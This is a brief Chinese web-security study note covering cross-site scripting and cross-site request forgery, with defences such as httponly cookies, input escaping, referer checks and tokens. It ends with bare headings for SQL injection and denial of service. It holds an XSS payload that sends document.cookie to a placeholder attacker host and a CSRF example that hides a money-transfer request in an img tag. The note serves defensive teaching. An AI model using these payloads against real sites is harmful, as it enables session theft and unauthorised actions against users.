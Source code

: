 跨站脚本攻击
将代码注入到用户访问的网页中，代码包括html和js
例如某个网站有发表评论功能
攻击者输入
<script>location.href="//xxx.com?cookies="+document.cookie</script>
当其他用户访问这个评论所在的页面的时候，就会把本机浏览器的cookie给发送到攻击者目标网站中。
防范措施：
1.设置Cookie为httponly,防止跨站js调用了
2.过滤特殊字符<>,为&lt;,&gt;,防止html，js运行
跨站请求伪造
跨站请求伪造是在用户不知情的情况下进行需要用户权限的动作，它不会获取用户的信息，但是会损坏用户的利益。
例如，某个请求的api为http://www.xxx.com/apply?account=1000&to='A',向A用户转账1000元，而这个api隐藏在<img src=""></img>下，用户如果此时还有登录状态的话，就会不知不觉去调用这个api进行转账动作。
防范措施：
1.检查referer字段，只允许服务器所在域名的请求。
2.添加token校验，特殊api要进行权限处理
3.输入验证码进行防范
sql注入

拒绝服务